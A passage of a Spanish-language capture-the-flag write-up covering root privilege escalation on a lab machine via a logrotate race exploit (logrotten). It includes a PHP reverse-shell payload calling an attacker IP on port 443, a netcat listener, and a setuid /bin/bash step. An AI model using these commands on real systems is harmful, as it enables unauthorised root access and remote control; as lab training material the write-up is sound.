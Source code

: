 ## Privilege Escalation {-}

### Rootear la maquina {-}

```bash
id
sudo -l
ls -l
cd backups
ls -l
cat access.log
cat access.log.1
```

Aqui no tenemos mucha cosa que podemos hacer. Uzamos **pspy** para investigar el systema.

```bash
wget https://github.com/DominicBreuker/pspy/releases/download/v1.2.0/pspy64
./pspy64
```

pspy nos muestra que hay un `/usr/sbin/logrote` que se ejecuta a interval regular de tiempo.

```bash
uname -a
logrotate -v
```

En la maquina de atacante buscamos un exploit logrotate para escalada de privilegios

```bash
searchsploit logrot
searchsploit -m 47466
mv 47466.c logrotten.c
```

Copiamos el contenido en un fichero de la maquina victima y le quitamos todos los commentarios.

```bash
gcc logrotten.c -o logrotten
```

Creamos un fichero payloadfile malicioso

```bash
nano payloadfile


#!/bin/bash

php -r '$sock=fsockopen("10.10.17.51",443);exec("/bin/sh -i <&3 >&3 2>&3");'
```

Nos ponemos en escucha por el puerto 443

```bash
nc -nlvp 443
```

Lanzamos el script

```bash
logrotten -p payloadfile /home/reader/backups/access.log
```

Nos conectamos nuevamente por ssh a la maquina victima para modificar el fichero `access.log`

```bash
ssh reader@10.10.10.176 -i id_rsa

echo "s4vitar" > backups/access.log
```

Esperamos un poco y ganamos accesso al systema. Pero se desconecta bastante rapido. Volvemos nuevamente a lanzar el script
y rapidamente colamos un `chmod 4755 /bin/bash` de seguida que ganamos accesso al systema antes que se desconnecte.

Desde una shell ssh ya podemos lanzar un `bash -p` y leer el fichero `root.txt`